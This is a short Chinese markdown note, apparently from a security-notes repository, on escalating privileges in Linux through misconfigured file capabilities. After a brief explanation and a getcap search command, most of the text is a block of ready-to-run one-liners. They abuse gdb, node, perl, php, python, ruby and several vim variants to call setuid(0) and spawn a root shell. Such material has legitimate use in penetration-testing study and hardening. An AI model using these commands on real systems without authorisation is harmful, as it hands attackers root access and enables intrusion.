

# 文章
[Linux系统利用可执行文件的Capabilities实现权限提升-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1731464)<br />Linux 2.2以后增加了capabilities的概念，可以理解为水平权限的分离。以往如果需要某个程序的某个功能需要特权，我们就只能使用root来执行或者给其增加SUID权限，一旦这样，我们等于赋予了这个程序所有的特权，这是不满足权限最小化的要求的；在引入capabilities后，root的权限被分隔成很多子权限，这就避免了滥用特权的问题，我们可以在[capabilities(7) - Linux manual page](http://man7.org/linux/man-pages/man7/capabilities.7.html)中看到这些特权的说明
### 搜索方法
```shell
getcap -r / 2>/dev/null
```

### 一些利用方法
利用命令提权，可以参考[GTFOBins](https://gtfobins.github.io/#+capabilities)（有些命令不适合所有终端）
```shell
# gbd的利用方法
./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

#node的利用方法
./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'

#perl的利用方法
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

#php的利用方法
./php -r "posix_setuid(0); system('/bin/sh');"

#pythond的利用方法
./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

#ruby的利用方法
./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'

#rview的利用方法
./rview -c ':lua os.execute("reset; exec sh")'

#rvim的利用方法
./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

#view的利用方法
./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

#vim的利用方法
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

#vimdiff的利用方法
./vimdiff -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
